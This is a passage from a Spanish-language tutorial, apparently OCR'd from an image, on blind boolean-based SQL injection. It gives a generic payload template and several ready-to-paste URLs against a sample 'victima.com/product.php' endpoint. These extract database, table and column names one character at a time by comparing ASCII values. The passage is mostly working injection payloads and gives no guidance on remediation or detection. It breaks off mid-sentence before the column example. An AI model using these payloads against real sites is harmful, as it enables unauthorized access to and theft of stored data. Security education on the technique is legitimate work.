 Por ejemplo, para extraer el valor de la columna columna de la fila N en la tabla nombre_tabla de la base nombre_bd:
```sql
' AND ASCII(SUBSTRING((SELECT columna FROM nombre_bd.nombre_tabla LIMIT N,1), pos, 1)) = X -- -
```
Aquí:

N es el índice de la fila (0 para la primera fila, 1 para la segunda, etc.).

pos es la posición del carácter en el valor de la columna.

X es el valor ASCII que se prueba.

Este método permite extraer cualquier dato almacenado, letra a letra.

---

## Ejemplo con una URL vulnerable

Supongamos que tienes una URL vulnerable como esta:

```
http://victima.com/product.php?id=1
```

Para extraer la primera letra de la **primera base de datos** (`N=0`, `pos=1`), prueba:

```
http://victima.com/product.php?id=1' AND ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT 0,1),1,1))=97 -- -
```

Si la respuesta es **igual** a la de una petición normal (por ejemplo, se carga bien la página), significa que el carácter **sí** es `'a'`.

Si cambia (error o comportamiento diferente), pruebas otro valor de `X`, por ejemplo 98, 99… hasta acertar el carácter.

Para la **segunda base de datos** (`N=1`), usas:

```
http://victima.com/product.php?id=1' AND ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT 1,1),1,1))=X -- -
```

Y para la tercera:

```
http://victima.com/product.php?id=1' AND ASCII(SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT 2,1),1,1))=X -- -
```

Del mismo modo, para obtener la **segunda tabla** (`N=1`) de la base `admin`:

```
http://victima.com/product.php?id=1' AND ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='admin' LIMIT 1,1),1,1))=X -- -
```

Y para la **tercera columna** de la tabla `users`:
